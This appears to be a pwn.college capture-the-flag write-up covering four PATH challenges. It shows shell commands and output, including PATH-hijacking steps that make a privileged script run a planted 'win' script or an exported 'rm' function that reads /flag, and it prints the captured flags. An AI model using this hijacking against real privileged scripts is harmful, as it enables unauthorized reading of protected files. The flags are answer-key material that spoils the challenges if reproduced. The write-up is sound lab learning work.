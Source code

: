 # Pondering PATH

### The PATH variable
We set `PATH` to `""` (empty), and use `export` it to make sure children processes have the values overwritten as well causing `rm` to not be found by `/challenge/run`.
```bash
hacker@path~the-path-variable:~$ export PATH=""
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: No such file or directory
The flag is still there! I might as well give it to you!
pwn.college{8EDmyhUGn_5SjwHGGfu5YgmV4P0.dZzNwUDLxUjN0czW}
hacker@path~the-path-variable:~$ 
```

### Setting PATH
Set (overwrite and export) `PATH` variable to `/challenge/more_commands/`, by doing so `/challenge/run` can invoke it with it's bare name (which is just `win`).
```bash
hacker@path~setting-path:~$ export PATH=/challenge/more_commands/
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{Ez76TnxJqFhPGs9YoMDBUZXZTDx.dVzNyUDLxUjN0czW}
hacker@path~setting-path:~$ 
```

### Adding commands
We make the directory `scripts`, make a script there called `win` which reads off `/flag` file and has a sneaky message for cryptonite team, change the permission using `chmod` such that user `hacker` can execute `win`, export the and append the new path to `PATH` variable, then finally execute `/challenge/run` to complete the challenge.
```bash
hacker@path~adding-commands:~$ mkdir scripts
hacker@path~adding-commands:~$ printf "Hello cryptonite people, I got the flag :D\ncat /flag" > scripts/win
hacker@path~adding-commands:~$ chmod u+x scripts/win
hacker@path~adding-commands:~$ export PATH=$PATH:~/scripts/
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
Hello cryptonite people, I got the flag :D
pwn.college{Y7xl-Eg55R7B5snhHbaoRFt0B0L.dZzNyUDLxUjN0czW}
hacker@path~adding-commands:~$ 
```

### Hijacking commands
Decided to do the last challenge in a bit of an interesting way, we define a `rm` function with contents `cat /flag` as this will be ran with elevated permissions and we'll get the contents of `/flag`, then we use `export` with flag `-f` to export the function so that subprocesses could use it (we need that for `/challenge/run` to find our custom function rather than the real one).
```bash
hacker@path~hijacking-commands:~$ rm() { cat /flag; }
hacker@path~hijacking-commands:~$ export -f rm
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /usr/bin/rm. Executing!
pwn.college{oSaQ5v7R4vc_4NDsgHC7hvapcev.ddzNyUDLxUjN0czW}
hacker@path~hijacking-commands:~$ 
```
